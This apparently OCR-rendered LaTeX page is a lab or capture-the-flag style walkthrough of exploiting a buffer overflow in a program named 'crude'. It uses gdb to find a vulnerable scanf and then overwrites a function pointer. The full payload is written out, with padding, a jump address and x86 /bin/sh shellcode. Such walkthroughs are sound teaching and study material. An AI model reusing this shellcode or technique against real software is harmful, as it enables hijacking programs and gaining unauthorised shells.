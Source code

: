 \documentclass[]{article}
\begin{document}
\begin{enumerate}
	\item Run crude through gdb with a break at \texttt{save\_db}. Run through the program until it hits the save\_db breakpoint.
	\item Step through the function until we get to the vulnerable scanf.
	\item Print \texttt{sd-$>$func} to see what the function pointer points to, so we can verify that it has changed when we overflow the buffer.
	\item Print the addresses of \texttt{sd-$>$func} and \texttt{sd-$>$file\_path} to ensure they are organised how we think they are. Sure enough, \texttt{sd-$>$func} is 256 words above \texttt{sd-$>$file\_path}. This means we need to write 256 characters to the buffer, then the new jump address, then the shellcode.
	\item Record the new jump address (\&(\texttt{sd-$>$func}) + 4).
	\item Construct the payload. The first part is to interact with the program, to get to \texttt{save\_db}. Then the \textcolor{blue}{buffer overflow}, then the \textcolor{red}{new jump address}, and finally the \textcolor{orange}{shellcode}.
	\\
	\\
	\texttt{python -c "'1{\textbackslash}ntest.csv{\textbackslash}n6{\textbackslash}n' + \textcolor{blue}{256 * 'a'} + \textcolor{red}{'{\textbackslash}x54{\textbackslash}x19{\textbackslash}x06{\textbackslash}x08'} +\\ \textcolor{orange}{'{\textbackslash}x31{\textbackslash}xc0{\textbackslash}x50{\textbackslash}x68{\textbackslash}x2f{\textbackslash}x2f{\textbackslash}x73{\textbackslash}x68{\textbackslash}x68{\textbackslash}x2f{\textbackslash}x62{\textbackslash}x69{\textbackslash}x6e{\textbackslash}x89{\textbackslash}xe3{\textbackslash}x50\\{\textbackslash}x53{\textbackslash}x89{\textbackslash}xe1{\textbackslash}x31{\textbackslash}xd2{\textbackslash}x83{\textbackslash}xc0{\textbackslash}x5b{\textbackslash}x83{\textbackslash}xe8{\textbackslash}x50{\textbackslash}xcd{\textbackslash}x80{\textbackslash}x0a'}}
	\\
	\item Lets test it. This time we run crude through gdb, feeding it the file as input. \texttt{run $<$ heap.txt}
	\item Step through the \texttt{save\_db} function again, and print\texttt{ sd-$>$func} right before, then right after the payload has been delivered, to ensure we hit the right addresses. Sure enough, we were spot on.

\end{enumerate}
\end{document}
